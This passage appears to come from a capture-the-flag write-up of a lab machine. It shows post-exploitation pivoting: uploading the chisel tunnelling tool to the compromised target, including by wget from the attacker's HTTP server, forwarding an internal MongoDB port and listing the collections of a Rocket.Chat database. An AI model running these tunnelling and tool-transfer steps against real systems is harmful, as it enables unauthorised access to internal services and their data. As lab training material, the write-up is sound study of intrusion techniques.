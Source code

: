 Download the 386 version of `chisel` for the target (ex: `chisel_1.7.7_linux_386.gz`). We can run `upload Downloads/chisel_386` in pwncat's local shell (or use `python -m http.server 8080` on the attacker and then run `wget 10.10.14.98:8000/chisel_386` on the target) to upload the tool. Then, on the target machine run `./chisel_386 server -p 40808` to start the server. On the attacker machine run `./chisel client 10.10.11.155:40808 27017:172.17.0.2:27017` to forward the port:

```
saul@talkative:~$ ./chisel_386 server -p 40808
2022/07/26 20:29:09 server: Fingerprint Cg8eQlyIQcC+5x7RKPsakIpNQ2QeXD0XOQa8U98vP4Y=
2022/07/26 20:29:09 server: Listening on http://0.0.0.0:40808
```

```
./chisel client 10.10.11.155:40808 27017:172.17.0.2:27017
2022/07/26 16:29:34 client: Connecting to ws://10.10.11.155:40808
2022/07/26 16:29:34 client: tun: proxy#27017=>172.17.0.2:27017: Listening
2022/07/26 16:29:34 client: Connected (Latency 22.912495ms)
```

Now, we have access to the mongodb server on our attacker machine:

```
$ curl localhost:27017
It looks like you are trying to access MongoDB over HTTP on the native driver port.
```

Then, just run the `mongo` command on the attacker machine and it will automatically connect to the correct database since it is on `localhost` now.

We can view the databases and switch to the `meteor` database:

```
rs0:PRIMARY> show dbs
admin   0.000GB
config  0.000GB
local   0.011GB
meteor  0.005GB
rs0:PRIMARY> use meteor
switched to db meteor
rs0:PRIMARY> db
meteor
```

We can view the collections in this database with `show collections`:

```
_raix_push_app_tokens
_raix_push_notifications
instances
meteor_accounts_loginServiceConfiguration
meteor_oauth_pendingCredentials
meteor_oauth_pendingRequestTokens
migrations
rocketchat__trash
rocketchat_apps
rocketchat_apps_logs
rocketchat_apps_persistence
rocketchat_avatars
rocketchat_avatars.chunks
rocketchat_avatars.files
rocketchat_credential_tokens
rocketchat_cron_history
rocketchat_custom_emoji
rocketchat_custom_sounds
rocketchat_custom_user_status
rocketchat_export_operations
rocketchat_federation_dns_cache
rocketchat_federation_keys
rocketchat_federation_room_events
```